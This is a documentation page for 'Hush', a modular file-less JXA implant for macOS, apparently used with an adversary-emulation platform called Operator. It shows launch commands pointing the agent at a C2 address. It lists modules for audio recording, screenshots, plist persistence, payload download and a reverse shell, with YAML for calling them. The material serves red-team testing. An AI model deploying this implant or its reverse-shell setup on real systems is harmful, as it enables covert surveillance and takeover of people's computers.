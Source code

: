 ```yaml
---
title: "Hush"
slug: "hush"
excerpt: ""
hidden: false
metadata: 
  image: []
  robots: "index"
createdAt: "Wed Jun 29 2022 16:58:11 GMT+0000 (Coordinated Universal Time)"
updatedAt: "Wed Jun 29 2022 16:58:11 GMT+0000 (Coordinated Universal Time)"
---
```

Hush is a lightweight JXA agent for Mac OS systems after Yosemite (10.10).  Hush is a _fully_ modular file-less implant that will dynamically request and install new modules are they are needed.

### Running

```bash
osascript -l JavaScript hush-darwin.js
```

You can run with a specified target address with:

```bash
osascript -l JavaScript hush-darwin.js http://192.168.1.1:3391 http
```

You can also launch with a proxy configuration:

```bash
osascript -l JavaScript hush-darwin.js http://192.168.1.1:3391 http http://alecks:password@192.168.10.1:8080
```

### Modular system

All components of Hush are modular, from the C2 to the commands it executes. It uses Javascript's `eval` to load in functions to a top-level `modules` object. Each module is considered an "executor" by Operator.

Currently available modules:

- **bash**: run a shell command
- **capture-audio**: record system audio
- **config**: update Hush running config
- **dylib-hijack-check**: check for dylib hijack opportunities
- **execute**: run a binary with specific arguments
- **http**: HTTP POST C2 suport
- **plist-persist-user**: install a user-level plist persistence
- **pwd**: print working directory
- **request-payload**: download the specified target
- **screenshot**: take a screenshot of the desktop
- **sh**: run a shell command
- **shell**: spawn an interactive reverse shell back to Operator  
    

A TTP that would call the pwd module would be formatted like this:

```yaml
platforms:
    darwin:
        pwd:
            command: ''
```

Shell commands are run using the standard `sh` executor and no TTP changes are needed.

Modules that take arguments use JSON formatted data:

```yaml
platforms:
    darwin:
        shell:
            command: '{"Target": "#{operator.tcp_shell}"}'
```
